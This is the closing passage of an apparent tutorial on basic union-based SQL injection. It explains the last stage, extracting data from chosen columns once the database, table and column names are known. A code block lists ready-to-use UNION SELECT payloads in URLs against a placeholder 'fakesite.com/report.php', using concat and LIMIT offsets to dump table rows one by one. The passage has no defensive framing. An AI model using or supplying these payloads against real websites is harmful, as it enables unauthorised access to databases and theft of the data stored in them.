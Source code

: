 Now we know the database name, the table names and the column names so the last stage starts of extracting data from the columns. Now we have to specify from which column we want the data and from which table. Query and injection is simple at this stage

```
Query : Select column1, column2 from tablename
First row : http://fakesite.com/report.php?id=-23 union Select 1,2,concat(column1,column2),4,5 from tablename limit 0,1--+
Second row : http://fakesite.com/report.php?id=-23 union Select 1,2,concat(column1,column2),4,5 from tablename limit 1,1--+
Third row : http://fakesite.com/report.php?id=-23 union Select 1,2,concat(column1,column2),4,5 from tablename limit 2,1--+
Forth row : http://fakesite.com/report.php?id=-23 union Select 1,2,concat(column1,column2),4,5 from tablename limit 3,1--+
```
Thats all for Basic Union Based Injection.
